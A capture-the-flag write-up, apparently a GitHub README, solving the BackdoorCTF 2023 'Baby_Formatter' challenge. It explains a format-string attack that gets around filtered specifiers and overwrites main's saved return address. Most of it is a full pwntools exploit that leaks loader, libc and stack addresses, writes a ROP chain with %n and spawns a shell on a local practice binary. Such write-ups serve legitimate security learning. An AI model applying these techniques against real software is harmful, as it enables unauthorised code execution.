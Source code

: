 ## Level: Easy

### Challenge

I got the binary, libc and loader from: https://github.com/sajjadium/ctf-archives/blob/main/ctfs/BackdoorCTF/2023/pwn/Baby_Formatter/README.md

Use `pwninit` or `patchelf` to patch the binary. 
```
  cp fmt1 fmt1_patched
  patchelf --set-interpreter ./ld-linux-x86-64.so.2 fmt1_patched
  patchelf --set-rpath . fmt1_patched
```

Cool challenge by __@p0ch1ta__, format string exploit with some filtered chars. This challenge made me realize that I should automate stuff with pwntools and python functions.

### Checksec
![checksec](https://github.com/user-attachments/assets/e040f7ec-3a06-41dd-a1b7-aa411c8d9fe5)

### Leaking info
Btw, they gave us an option to leak an address in libc and in the stack but I didn't take it :P

![noob](https://github.com/user-attachments/assets/7fc15592-e220-4227-aa85-c327c55cb772)

Anyway, `%p` `%u` `%d` and `%x` is filtered but we can still use `%s` and `%o` to leak info. Due to `Full RELRO` we can't overwrite the got entries, at least in the binary. Maybe we can overwrite a got entry in `libc` because its __Partial RELRO__ but I ended up overwriting _saved rip_ of main with **system("/bin/sh")**.

### Local Flag

![realflag](https://github.com/user-attachments/assets/67de5c3e-b633-4388-89b3-e5b102a40dad)

### Full Exploit
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
'''
p = gdb.debug("./fmt1_patched", gdbscript="""
    b *main+159
    c
""")
'''

p = process("./fmt1_patched")

# leak an address in loader for gadgets
# the binary doesn't have useful gadgets
payload = b"%27$s"

p.recvuntil(b">> ")
p.sendline(b"2")

p.recvuntil(b">> ")
p.sendline(payload)

ld_leak = p.recvline().strip()

ld_leak = u64(ld_leak.ljust(8, b"\x00"))

ld_base = ld_leak - 242400
print("LD_BASE: " + hex(ld_base))

# useful gadgets
POP_RSP = ld_base + 0x00000000000021d3 
POP_RSI = ld_base + 0x00000000000054da
POP_RDI = ld_base + 0x000000000000351e 
RET = ld_base + 0x2128

# leak libc and stack addresses in octal
payload = b"%17$lo %21$lo %11$lo"

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

leak = p.recvline().strip()

# convert octal to int
libc_leak = int(leak[:16], 8)
stack_leak = int(leak[17:33], 8)

# calculate offsets
libc_base = libc_leak - 171408
ret_addr = stack_leak - 272
bin_sh = libc_base + 1934968 
system = libc_base + 331120

# overwrite the saved rip of main with "pop_rdi"
# split the address so copying is less painful (2 bytes each time instead of 4)
print("OVERWRITING saved rip with 'pop_rdi'...")
pop_rdi = hex(POP_RDI)[6:]
pop_rdi2 = hex(POP_RDI)[10:]
pop_rdi3 = pop_rdi[:4]

pop_rdi = int(pop_rdi, 16)
pop_rdi2 = int(pop_rdi2, 16)
pop_rdi3 = int(pop_rdi3, 16)

# copy the less significant 2 bytes
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr)
payload += p16(pop_rdi2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the next 2 bytes 
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr+2)
payload += p16(pop_rdi3)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# overwrite ret_addr+8 of main with "/bin/sh"
# to find "/bin/sh" string in libc (get the offsets with vmmap):
# find 0x00007ff799702000, 0x00007ff7998eb000, '/', 'b', 'i', 'n', '/', 's', 'h'
# copy the less significant 4 bytes
print("WRITING '/bin/sh' ONTO THE STACK...")
bin_sh1 = hex(bin_sh)[6:]
bin_sh1 = int(bin_sh1, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+8)
payload += p32(bin_sh1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
bin_sh2 = hex(bin_sh)[:6]
bin_sh2 = int(bin_sh2, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+12)
payload += p32(bin_sh2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# align the stack with "ret"
# copy the less significant 4 bytes
print("ALIGNING THE STACK FOR SYSTEM...")
ret1 = hex(RET)[6:]
ret1 = int(ret1, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+16)
payload += p32(ret1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
ret2 = hex(RET)[:6]
ret2 = int(ret2, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+20)
payload += p32(ret2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# call system
# copy the less significant 4 bytes
print("WRITING system('/bin/sh')...")
system1 = hex(system)[6:]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+24)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
system1 = hex(system)[:6]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+28)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

print("shell in 3...")
p.interactive()
```

<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMHlnZGtkaWFpN2ZmZHk4OWl0cnQ4OW5nM3hhZmlyMHZwYXJudnlveCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/u2dI2h52gAzNS/giphy.webp>

See? That's why I said I should automate stuff 🥀





